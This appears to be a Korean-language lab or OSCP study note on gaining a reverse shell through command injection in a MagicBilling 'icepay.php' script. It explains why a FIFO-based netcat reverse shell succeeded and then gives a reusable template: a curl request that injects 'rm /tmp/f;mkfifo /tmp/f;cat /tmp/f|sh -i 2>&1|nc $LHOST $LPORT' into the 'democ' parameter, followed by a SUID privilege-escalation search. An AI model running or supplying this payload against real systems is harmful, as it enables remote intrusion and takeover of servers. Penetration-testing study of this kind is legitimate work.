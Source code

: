 ## ✅ 성공한 이유

| 이유                         | 설명                                                               |
| ---------------------------- | ------------------------------------------------------------------ |
| **단일 셸 (`sh`) 사용**      | `bash -c` 대신 `sh`를 직접 사용하여 복잡한 파싱 없이 명령 실행     |
| **FIFO 파이프 방식**         | 전통적인 안정적 리버스 셸 방식. 입력/출력을 분리하여 세션이 안정적 |
| **명확한 리디렉션**          | `2>&1`, `>`, 파이프가 명확하게 사용되어 ambiguity가 없음           |
| **작은따옴표 없음**          | `'bash -i'` 같이 shell 내부 구문 문제가 없음                       |
| **URL 인코딩 올바르게 적용** | `--data-urlencode`를 사용해 명령 전체가 올바르게 인코딩되어 전송됨 |

---

## 🛡 정리: 리버스 쉘 성공 조건

| 요소                  | 설명                                          |
| --------------------- | --------------------------------------------- |
| **명령어 간결화**     | `sh` 사용으로 복잡도 최소화                   |
| **URL 인코딩 철저히** | 파라미터 내 특수 문자 안전 처리 필요          |
| **파이프/FIFO 활용**  | 입력-출력 연결 구조 명확                      |
| **bash 의존 최소화**  | bash는 일부 시스템에서 사용 불가하거나 제한됨 |

---

## ✅ 수동 쉘 명령 템플릿 (OSCP용)

```bash
TARGET="http://10.10.13.178/mbilling/lib/icepay/icepay.php"
LHOST="10.8.136.212"
LPORT=443

PAYLOAD=";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $LHOST $LPORT >/tmp/f;"
curl -s "$TARGET" --get --data-urlencode "democ=$PAYLOAD"
```

# SUID 루팅

find / -perm -4000 -type f 2>/dev/null

# 결과 없으므로 다른 방법

# Asterisk Call Manager 서비스를 확인했으므로 설정 파일 확인
